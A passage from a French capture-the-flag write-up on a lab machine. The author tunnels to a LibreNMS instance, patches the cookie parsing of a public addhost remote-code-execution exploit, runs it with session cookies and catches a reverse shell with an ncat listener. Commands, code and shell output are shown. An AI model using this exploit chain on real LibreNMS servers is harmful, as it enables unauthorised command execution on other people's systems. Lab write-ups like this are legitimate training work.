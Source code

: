 Comme on ne peut pas lire les fichiers on va forwarder le port en écoute 8080 pour y accéder :

```bash
ssh -N -L 8080:127.0.0.1:8080 aeolus@192.168.56.113
```

On tombe alors sur une mire `LibreNMS`. Ce logiciel se présente comme cela sur Github :

> LibreNMS is an auto-discovering PHP/MySQL/SNMP based network monitoring which includes support for a wide range of network hardware and operating systems including Cisco, Linux, FreeBSD, Juniper, Brocade, Foundry, HP and many more.

Les identifiants `aeolus` permettent de s'y connecter. Je ne trouve rien permettant d'exécuter des commandes ou d'uploader un fichier mais il y a un exploit pour ce qui semble être une injection de commande :

[LibreNMS 1.46 - addhost Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/47044)

L'exploit n'est pas très avancé, notamment il requiert qu'on lui passe les cookies en argument au lieu de faire l'authentification lui-même.

Il gère aussi mal le découpage des cookies quand le caractère égal est présent dans la valeur du cookie. J'ai du rectifier la partie qui gère ça :

```python
# request cookies
cookies = {}
for cookie in raw_cookies.split(";"):
    cookie = cookie.strip()
    if cookie:
        # print cookie
        c = cookie.split("=", 1)
        cookies[c[0]] = c[1]
```

Après ça fonctionne (j'ai mis tous les cookies mais peut être que le `PHPSESSID` suffirait) :

```shellsession
$ python 47044.py http://127.0.0.1:8080/ "XSRF-TOKEN=eyJpdiI6ImRUbjN2NEt2YjA4Mk1hbXJBK0N5VlE9PSIsInZhbHVlIjoiVm9cL01Ba0dyYTN6MHlhbjdoVWJxK1RPcHZOWHFPUXhPYUF4V3VWZ3FRV2FiMnNpYjRPMkp1b0tXa2FsSHdtT1M0U0NPcWQxUzl0MHFZTWNoaERJbFNnPT0iLCJtYWMiOiJjMzcxMzUyOWFiZTRhOTZiZjU5Mjc4MjAxNWJlYWIwNDkyMTkyOWZjYzJlOGIwYWQyODcxNmNhMGNmMzU0ZDBiIn0=; librenms_session=eyJpdiI6Ild3UWVVM0VESERieWlQdmorNElPOGc9PSIsInZhbHVlIjoiMFhIenc2UThGWVFXSWU5cnlTMFR3VkFnTytpckVxSzVEbE0yeU1Fa1p2VlQxQ2hqMjA0d2hDNDhIT3VZZytDY1ZIRFVvOFJ3ZENpc21RaFh1SGxydWc9PSIsIm1hYyI6IjU5MzlhNDhiMzgyMjBjYjY0OTc4YWVkN2ZmOWM3ZTI4OGQ0OTUxOWZhYWE2OTliYmI0Mjc5ZWVkOGUyNTFkYWUifQ==; PHPSESSID=g4pm7kq5bqg0vu8lb08mvilmu7;" 192.168.56.1 9999
[+] Device Created Sucssfully
```

Il faut avoir préalablement mis en écoute un `Ncat` :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.56.113.
Ncat: Connection from 192.168.56.113:41036.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(cronus) gid=1001(cronus) groups=1001(cronus),999(librenms)
```
